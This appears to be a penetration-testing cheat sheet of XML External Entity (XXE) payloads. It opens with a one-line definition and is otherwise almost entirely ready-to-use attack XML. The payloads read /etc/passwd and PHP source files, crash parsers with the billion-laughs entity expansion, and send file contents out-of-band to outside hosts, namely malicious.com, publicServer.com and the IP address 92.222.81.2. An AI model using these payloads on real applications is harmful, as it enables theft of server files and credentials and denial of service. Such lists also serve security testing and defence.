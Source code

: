 # XML External Entity
An XML External Entity attack is a type of attack against an application that parses XML input

## Exploit

Basic Test
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

Classic XXE
```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

Classic XXE Base64 encoded
```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,PCFF...Cg=="> %init; ]><foo/>
```

PHP Wrapper inside XXE
```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```


Deny Of Service - Billion Laugh Attack
```
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

Blind XXE
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```


XXE OOB Attack (Yunusov, 2013)
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

XXE OOB with DTD and PHP filter
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://92.222.81.2/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://92.222.81.2/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://92.222.81.2/dtd.xml?%data;'>">
```

XXE Inside SOAP
```
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```


## Thanks to
* https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
* http://web-in-security.blogspot.fr/2014/11/detecting-and-exploiting-xxe-in-saml.html
* https://gist.github.com/staaldraad/01415b990939494879b4
